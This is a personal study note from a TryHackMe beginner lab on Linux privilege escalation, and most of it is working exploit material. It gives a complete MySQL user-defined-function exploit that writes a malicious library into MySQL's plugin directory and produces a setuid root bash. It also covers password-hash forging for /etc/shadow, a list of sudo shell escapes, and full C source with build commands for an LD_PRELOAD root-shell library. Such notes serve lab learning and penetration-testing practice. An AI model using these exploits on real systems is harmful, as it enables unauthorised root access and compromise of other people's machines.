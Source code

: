 # TryHackMe: Complete Beginner

**author**:: Nathan Acks  
**date**:: 2021-10-30

## Linux PrivEsc

### Service Exploits

[Exploiting MySQL running as root via a malicious user-defined function dynamic library.](https://www.exploit-db.com/exploits/1518)

The key to this is that if MySQL is running as root, then it can write files to all manner of directories. We use this to load a malicious library (raptor_udf2.so from the above ExploitDB link) as a plugin by first dumping it as a blob into a table and then dumping it back out in MySQL's plugin directory. Once there, we define a UDF using the malicious plugin to allow us to execute system commands; in particular, this lets us set the sticky bit on a copied shell that we can then execute to obtain root.

```bash
cd /home/user/tools/mysql-udf
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
cat > rootme.sql <<EOF
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
EOF
mysql -u root mysql < rootme.sql
/tmp/rootbash -p # Root!
```

### Weak File Permissions

Make a new password hash for /etc/password or /etc/shadow:

```bash
mkpasswd -m sha-512 $PASSWORD
```

[It's also possible to generate MD5 passwords for /etc/passwd using the openssl binary.](../notes/local-file-inclusion-attacks.md)

### Sudo

Some shell escapes via GTFOBins:

* `awk` - `awk 'BEGIN {system("/bin/sh")}'`
* `find` - `find . -exec /bin/sh \; -quit`
* `ftp` - `!/bin/sh`
* `iftop` - `!/bin/sh`
* `less` - `!/bin/sh`
* `man` - `!/bin/sh`
* `more` - `!/bin/sh` (may require TERM to be unset)
* `nano` - ^R^X followed by `reset; sh 1>&0 2>&0`
* `nmap` - create a file containing `os.execute("/bin/sh")` and then run `nmap --script=$FILE`
* `vim` - `:set shell=/bin/sh` followed by `:shell`

If LD_PRELOAD or LD_LIBRARY_PATH are preserved by sudo, then it's also possible to use a malicious dynamic library to gain root access. Preserved environment variables are listed by `sudo -l`.

LD_PRELOAD is probably the easiest of these to exploit, because a library listed in this environment variable is just automatically loaded on application start. So just run `sudo LD_PRELOAD=/path/to/malicious.so program-runnable-with-nopasswd`.

A simple malicious library (perhaps *the* simplest) that can exploit the LD_PRELOAD trick is:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -shared -nostartfiles \
    -o /path/to/malicious.so /path/to/malicious.c
```

Using LD_LIBRARY_PATH is a bit trickier; use ldd to see what libraries a program is already pulling in, and then name your malicious library after one of these. Then run `sudo LD_LIBRARY_PATH=/path/to/malicious/library program-runnable-with-nopasswd` to trick the program into loading your malicious library instead of the legitimate system library.

While the same code as LD_PRELOAD can be used as a starting point for an LD_LIBRARY_PATH exploit, things get trickier because some libraries are required by others, loaded at different times, or have functions (symbols) that are loaded but not used right away. So some amount of trial-and-error, both in the naming of the malicious library and in what functions are defined within it, may be required.

NOTE that not every UNIX-like system calls their library path LD_LIBRARY_PATH!

* [GTFOBins](https://gtfobins.github.io)
